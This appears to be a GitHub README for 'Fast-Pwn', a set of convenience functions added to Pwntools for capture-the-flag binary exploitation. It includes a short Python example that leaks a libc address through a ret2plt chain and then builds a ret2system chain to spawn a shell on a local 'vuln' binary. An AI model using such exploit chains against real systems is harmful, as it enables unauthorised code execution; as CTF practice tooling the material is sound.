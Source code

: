 # Fast-Pwn
Some code I have added to my local Pwntools to speed up things.

Functions Added - 

- ret2system() - creates a return to system rop chain, accepts two arguments align and bin_sh
- ret2plt() - creates a return to plt rop chain, accepts two arguments leak and ret
- recv_libc_leak() - receive 6 bytes on amd64 and 4 bytes on i386, then unpack tye address and substract the offset and return libc base address, accepts one argument offset
- sendpayload() - accepts 2 arguments offset and payload and send flat{offset:payload}
- find_bin_sh() - return /bin/sh address 
- section_addr() - return the address of section like(.bss,.data), accepts 2 arguments name and offset

Quick Fixes -

- libc() - I like to use elf.libc but it is broken so i fixed it but still works only on 64 bit, requirement - `pip3 install pylddwrap`

Example - 

```python
from pwn import *

elf = context.binary = ELF("vuln")
rop = ROP(elf)
libc = elf.libc
offset = 136

io = process()
io.clean()

rop.ret2plt(leak=elf.got.puts, ret=elf.sym.main)
io.sendpayload(offset=offset, payload=rop.chain())

io.recvline()
libc.address = io.recv_libc_leak(offset=libc.sym.puts)

rop1 = ROP(libc)
rop1.ret2system(aling=True)
io.sendpayload(offset=offset, payload=rop1.chain())
io.interactive()
```

# Changes Made
### Added Code to -

[pwnlib/rop/rop.py](pwnlib/rop/rop.py) - Added 2 functions ret2plt and ret2system from line 1552 to 1561 \
[pwnlib/elf/elf.py](pwnlib/elf/elf.py) - Added 2 functions section_addr and find_bin_sh from line 1547 to 1570, Edited libc function from line 716 to 723 \
[pwnlib/tubes/tube.py](pwnlib/tubes/tube.py) - Added 1 function sendpayload from line 863 to 872, Added 1 function recv_libc_leak from line 753 to 763 \

### Created New File

[pwnlib/rop/ret2system.py](pwnlib/rop/ret2system.py) \
[pwnlib/rop/ret2plt.py](pwnlib/rop/ret2plt.py) \

